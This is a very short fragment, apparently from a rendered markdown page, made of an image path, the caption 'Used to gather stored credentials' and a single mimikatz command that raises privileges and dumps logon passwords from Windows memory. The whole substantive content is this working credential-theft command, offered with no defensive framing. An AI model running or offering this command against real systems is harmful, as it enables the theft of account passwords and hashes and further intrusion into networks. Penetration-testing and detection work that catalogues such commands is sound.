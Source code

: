 Used to gather stored credentials

```
.\mimikatz.exe "privilege::debug" "token::elevate" "sekurlsa::logonpasswords" "exit"
```